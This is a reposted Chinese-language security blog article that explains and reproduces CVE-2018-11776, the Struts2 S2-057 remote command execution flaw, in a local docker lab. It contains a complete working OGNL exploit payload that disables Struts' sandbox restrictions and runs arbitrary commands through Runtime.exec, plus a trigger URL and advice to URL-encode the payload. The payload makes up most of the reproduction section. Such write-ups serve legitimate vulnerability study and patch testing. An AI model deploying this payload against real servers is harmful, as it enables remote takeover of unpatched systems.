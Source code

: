 # 转载
：  漏洞解析及复现（CVE-2018-11776）

# 漏洞解析及复现（CVE-2018-11776）

## 1、简介

Struts2是一款基于Java开发的框架，web路径下会出现两种特殊的文件格式，即*.action文件与*.jsp文件;

它是**基于MVC设计模式的Web应用框架**，相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

## S2-057远程命令执行

### 1、漏洞简介

由于在Struts2开发框架中使用namespace功能定义XML配置时，namespace值未被设置且在上层动作配置（Action Configuration）中未设置或用通配符namespace，可能导致远程代码执行。

### 2、漏洞编号

CVE-2018-11776

### 3、影响版本

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

### 4、漏洞复现

#### 1、docker启动环境，访问界面

```
docker-compose up -d
```

#### 2、运用payload

```
http://192.168.200.47/showcase/${(111+111)}/actionChain1.action
```

触发点${}，示例图如下;

漏洞利用exp如下

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('calc')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

进行优化（**(#a=@java.lang.Runtime@getRuntime().exec('id')). 此段代码是可以在exec中执行任意命令，在这里是执行“id”**）

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.getExcludedPackageNames().clear()).
(#ou.getExcludedClasses().clear()).
(#ct.setMemberAccess(#dm)).
(#a=@java.lang.Runtime@getRuntime().exec('id')).
(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

注意：此payload最好进行URL编码

将它和触发点替换就好，可以在上执行任意命令，这步我没有截图。

还没看够？可以关注，带你走进黑客世界

[免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYlBlQ2xhaFBmamtq](https://docs.qq.com/doc/DYlBlQ2xhaFBmamtq)本文作者：Guess， 转载请注明来自[FreeBuf.COM](https://www.freebuf.com/)
